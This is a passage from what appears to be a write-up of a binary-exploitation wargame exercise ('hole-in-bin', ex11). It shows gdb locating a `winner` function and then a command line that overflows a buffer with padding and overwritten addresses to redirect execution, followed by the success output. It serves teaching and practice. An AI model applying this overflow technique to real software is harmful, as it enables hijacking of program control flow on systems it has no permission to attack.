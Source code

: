 Finding the address for `winner`:

```sh
(gdb) x winner
0x8048494 <winner>:     0x83e58955

# \x94\x84\x04\x08
```

So now we simply add address of `winner` as second argument:

```sh
user@hole-in-bin:~/hole-in-bin/ex11$ ./bin `python -c "print 'A' * 20 + '\x74\x97\x04\x08'"` `python -c "print '\x94\x84\x04\x08'"`
and we have a winner @ 1722427499
```
